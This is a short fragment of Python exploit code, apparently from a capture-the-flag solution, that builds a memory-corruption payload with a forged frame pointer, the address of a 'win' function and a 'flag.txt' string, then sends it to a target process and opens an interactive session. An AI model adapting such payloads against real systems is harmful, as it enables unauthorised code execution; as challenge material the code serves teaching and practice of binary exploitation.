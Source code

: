 ```python
new_frame_ptr = stack_addr + 90
payload += p64(new_frame_ptr)
payload += p64(win_addr)

payload += b"flag.txt\x00"

with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)

p.interactive()
```